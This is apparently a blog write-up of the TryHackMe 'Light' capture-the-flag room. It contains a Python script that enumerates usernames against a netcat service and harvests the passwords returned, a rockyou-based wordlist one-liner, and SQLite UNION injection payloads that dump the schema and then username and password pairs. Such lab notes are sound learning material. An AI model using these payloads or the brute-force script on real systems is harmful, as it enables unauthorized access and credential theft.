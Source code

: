 ```yaml
---
layout: post
title: "THM Light room notes"
date: 2025-03-06 20:30
categories: [thm, hacking, linux]
tags: [ctf, sqlinjection, netcat, nc, python, bash, sql]
---
```


# Light

### Room: 
[Link to the LIGHT room on THM](https://tryhackme.com/room/lightroom)
### Intro: 
"I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using:

```bash
nc MACHINE_IP 1337
```

You can use the username smokey in order to get started."
### Notes
- With all this info I started as suggested, providing username you will get a password
- First idea actually was not SQL injection, but just a bruteforce, so I wrote a short python script to poke the service:

```python
import socket
import argparse
import time
import re

def brute_force(ip, port, userlist):
    try:
        with open(userlist, "r") as f:
            for user in f:
                user = user.strip()
                print(f"[*] Trying username: {user}")
                
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.connect((ip, port))
                    s.recv(1024)  # Wait for initial prompt (if needed)
                    time.sleep(0.5)  # if need
                    s.sendall(user.encode())  # Send username
                    
                    time.sleep(0.5)  # if need
                    response = s.recv(1024).decode()
                    
                    # Extract password using regex
                    match = re.search(r'Password:\s*(\S+)', response)
                    if match:
                        password = match.group(1)
                        print(f"[+] Found password for {user}: {password}")
                    
                    s.close()
                except Exception as e:
                    print(f"[-] Error: {e}")
    except FileNotFoundError:
        print("[!] Username file not found.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Brute-force username enumeration over netcat-like service.")
    parser.add_argument("ip", help="Target IP address")
    parser.add_argument("port", type=int, help="Target port number")
    parser.add_argument("userlist", help="Path to the username list file")
    
    args = parser.parse_args()
    
    brute_force(args.ip, args.port, args.userlist)
```

- Preparing wordlist: I count that username must have 14 symbols so decide to create a new list (using rockyou.txt) since it is easy room so quick bash for that:

```bash
grep -o '\b\w\{14\}\b' rockyou.txt > 14_symbols_words.txt
```

- Starting bruteforce I realized since it is a database we could try SQLInjections meanwhile.
- After some time of trying different payloads I found that UNION could work in this case (pay attention to letter cases) and it is a sqlite kind of db:

```sql
' Union 1 '
' Union Select group_concat(sql) From sqlite_master '
' Union Select group_concat(username || '~' || password) From <here will be some table from previous query> '
```

- Actually that's it for this room, python script was kind waste of time from this room point of view but anyway I like to write scripts so no regret haha :D